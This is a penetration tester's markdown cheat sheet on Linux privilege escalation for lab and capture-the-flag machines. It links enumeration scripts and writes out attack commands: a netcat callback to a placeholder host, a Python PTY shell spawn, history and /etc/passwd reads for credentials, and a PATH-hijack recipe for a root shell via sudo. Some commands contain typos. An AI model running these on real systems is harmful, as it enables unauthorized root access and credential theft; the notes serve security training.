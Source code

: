 # *Nix Privilege Escalation
Once in the system, escalate to root/privilaged user.

**Scripts to help get a good view on the lay of the land**
Read the scripts and see which one fits the box. Automate local enum, look for any highlights, cron jobs, non standard scripts or programs, hard coded credentials, password reuse! against existing accounts

- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) by: carlospolop
- [LinEnum.sh](https://github.com/rebootuser/LinEnum) By: Rebootuser 
- [Linuxprivchecker.py](www.securitysift.com/download/linuxprivchecker.py) By: Mike Chumak (Security Sift)
- [linexpchecker.py](https://github.com/inquisb/miscellaneous) By: Bernado Damele (inquisb)

**Curated binary files**
[GTFOBINS](https://gtfobins.github.io/)


**Stabilize Your Shell**
Make another shell
```scss
which nc
nc $ip $port

which python
python -c 'import pty; pty.spawn("bin/bash");

// In Kali
stty -a # Notice number of rows and columns
stty raw -echo && fg
// On target system
reset
stty rows xx
stty columns yy
export TERM=xterm-256color


```
**General Info/Enum**
```scss
//username, groups
id
hostname

// Part of too many groups? Find out all the files you've access to
for i in $(groups); do echo "=======$i======"; find / -group $i 2>/dev/null | grep -v "proc" >> allfiles; done

// Network
netstat -antp

// Don't overlook past cmd history
less .bash_history
less mysql_history

// check for user accounts
cat /etc/passwd | grep "sh$\|python"

// sudo privs?
sudo -l

```
**Abusing sudo**
Does the user have a command or file that can run sudo?
```
Remember to check Programs on GTFOBins
sudo -l 
```
Symbolic links, PATH and privilage escalation vulnerability
- referenses:
	- [Vulnhub: Hackme 1](Hackme 1: https://www.vulnhub.com/entry/hackme-1,330/)
	- [Hacking Articles: Using PATH Variable](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

```scss
// Absolutepath not specified
	{
	echo "/bin/sh" > <program_name>
	chmod 777 <program_name>
	}

// Export PATH=.:$PATH (to a gobal writable folder]
	{
	check current path 
		export $PATH
	add path
		export:(newpath)$PATH
	}

sudo <program_name> or ./<program_name>

```



**Weak file permissions**
**Abusing CRON Jobs**

**Abusing wildcards**

- [ ] Password file /etc/passwd has write access
	- hacking articles: editing /etc/passwd file for privilage esclation
- [ ] TCMP dump
	- [Vulnhub: Web developer 1](https://www.vulnhub.com/entry/web-developer-1,288/)Fred Wemeijer 5Nov2018
- [ ] CHOWN | tar
	- hacking articles: exploiting wildcard for privilage esclation
- [ ] mounting the folder
	- [Vulnhub: pegasus](https://www.vulnhub.com/entry/pegasus-1,109/)Knapsy 16Dec2014
- [ ] group.xml file
	- hacking articles: penatration testing on group policy references
- [ ] SMB psexecution services
	- [HTB: active]
- [ ] "doas" functionality similiar to sudo functionality and "less"
	- [HTB: ypuffy]
	- [HTB: four and six 2]
- [ ] MySQL running as root
	- hacking articles: raven2 machine
- [ ] AWK
	- hacking articles: linux privilage esclation using exploiting sudo rights
- [ ] "rsh" is set with SUID bit | "pfexec" | wget in sudoers file
	- HTB: sunday
- [ ] /usr/bin/pip mentioned in sudoers file
	- hacking articles: wakanda
- [ ] /bin/screen 4.5.0
	- HTB: haircut
- [ ] curl
	- HTB: curling
- [ ] tmux is screen multiplier running as root
	- /bin/tmux

## Further References/Research
- [Fundamentals of Linux Privilage Esclation](https://www.slideshare.net/nullthreat/fund-linux-priv-esc-wprotections) Elliot Cutright
Videos
- [Linux Privilage Esclation - Trade Craft Security Weekly #22](https://www.youtube.com/watch?v=oYHAi0cgur4) Security Weekly, Beau Bullock (@dafthack) - 14Dec2017
- [Privilage Esclation FTW](https://www.youtube.com/watch?v=yXe4X-AIbps) Jake Williams - 15Nov2018
- [ts Too Funky In Here04 Linux privilege escalation for fun profit and all around mischief Jake Willi](https://www.youtube.com/watch?v=kuE2yqULs-Y) Jake Williams - 10Sep2016 @MalwareJake
